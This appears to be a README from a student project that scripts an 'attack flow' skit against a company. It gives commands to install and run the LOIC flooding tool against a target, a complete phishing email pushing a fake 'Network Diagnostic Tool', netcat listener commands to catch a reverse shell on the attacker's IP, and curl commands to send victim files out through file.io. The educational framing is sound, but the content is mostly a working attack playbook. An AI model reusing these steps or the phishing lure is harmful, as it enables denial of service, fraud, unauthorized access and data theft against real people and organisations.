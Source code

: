 # Attack Flow

## 1. DDoS to a company’s computer to cause slow network traffic with LOIC

- Clone the repository from [LOIC GitHub](https://github.com/NewEraCracker/LOIC)

- Add the Mono (C# runtime implementation) repository to the system

```bash
sudo apt install apt-transport-https dirmngr
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/ubuntu vs-bionic main" | sudo tee /etc/apt/sources.list.d/mono-official-vs.list
sudo apt update
```

- Install monodevelop
```bash
sudo apt-get install monodevelop
```

- cd to the LOIC directory and install LOIC
```bash
bash ./loic.sh install
```

- Run LOIC
```bash
bash ./loic.sh run
```

- Set the target IP address and port
- Set the attack type to UDP (suggested by GH Copilot; to be changed later)
- Set the attack rate to 1000 (suggested by GH Copilot; to be changed later)
- Start the attack

## 2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics

> Subject: ACTION REQUIRED: Irregular Internet Activity Detected <br>
> Date: 19 Feb 2021 05:37:51 -0800 <br>
> From: Security Notice <it-services@support.ipear.com> <br>
>
>
> Dear Fahmi,
>
> As a precautionary measure we have restricted access to your account
> due to irregular internet activity detected.
>
> Please run the attached Internet Diagnostic Tool to resolve the issue.
>
> The Internet Diagnostic Tool is attached below.
>
> To prevent further irregular activity we will restrict access to your
> account within 72 hours if you did not run the full internet diagnostic
> test.
>
>
> To ensure your account is protected at all times, we ask you to complete the
> following steps:
>
> Check that all your computers and mobile devices used to access your account
> have an up-to-date virus scanner to detect any possible malware.
>
> Check whether any of your personal data, especially your alternative address,
> has been changed by clicking on “My Account” on your “Homepage”.
> 
> Go to your “Email settings” then click on “Filter rules” to check whether any
> forwarding rules have been created. If you created a forwarding rule
> yourself, ensure that the email address used is still valid.
>
>
> Thank you for your cooperation.
> 
>
> Sincerely, <br>
> iPear Support
>
> iPear | Support | Privacy Policy  <br>
> Copyright ©2022 Secured Service. 50 Nanyang Ave, Singapore 639798 <br>
> All rights reserved. <br>

## 3. Gain access to the computer and navigate through the computer’s directories

- On attacker's computer (Linux with netcat installed), run the following
```bash
sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
```

- If the victim is using Windows, run the following on the attacker's computer
```bash
stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
```

- Victim runs the 'Diagnostic Tool' executable file: [Linux](../Attack/victim_linux.py) or [Windows](../Attack/victim_windows.py)
- Boom! Access granted!

## 4. Upload whatever files we want to [file.io](https://file.io)

- Run the following curl script and take note of the **KEY** it returns
```bash
curl -X 'POST' \
    'https://file.io/' \
    -H 'accept: application/json' \
    -H 'Content-Type: multipart/form-data' \
    -F 'file=@FILE_NAME_GOES_HERE' \
    -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
    -F 'maxDownloads=1' \
    -F 'autoDelete=true'
```

Try to stick to the values above as other values may require you to pay for the service.
    
Returns:
```jsonc
{
    "success": true,
    "status": 200,
    "id": "f00c8350-38a3-11ed-9c58-b7e8b46498c9",
    "key": "dGic53MOudXn", // <-- KEY
    "path": "/",
    "nodeType": "file",
    "name": "Untitled.game",
    "title": null,
    "description": null,
    "size": 1584,
    "link": "https://file.io/dGic53MOudXn",
    "private": false,
    "expires": "2022-09-21T00:00:00.000Z",
    "downloads": 0,
    "maxDownloads": 1,
    "autoDelete": true,
    "planId": 0,
    "screeningStatus": "pending",
    "mimeType": "application/octet-stream",
    "created": "2022-09-20T05:20:27.640Z",
    "modified": "2022-09-20T05:20:27.640Z"
}
```

- Download all the files after the attack with the following command
```bash
curl -X 'GET' \
    'https://file.io/KEY' \
    -H 'accept: */*' \
    -o 'FILE_NAME_GOES_HERE'
```

## 5. Find another company as our target to attack

## 6. Perform the same attack again, turns out this company has very good security in place

## 7. End of our skit
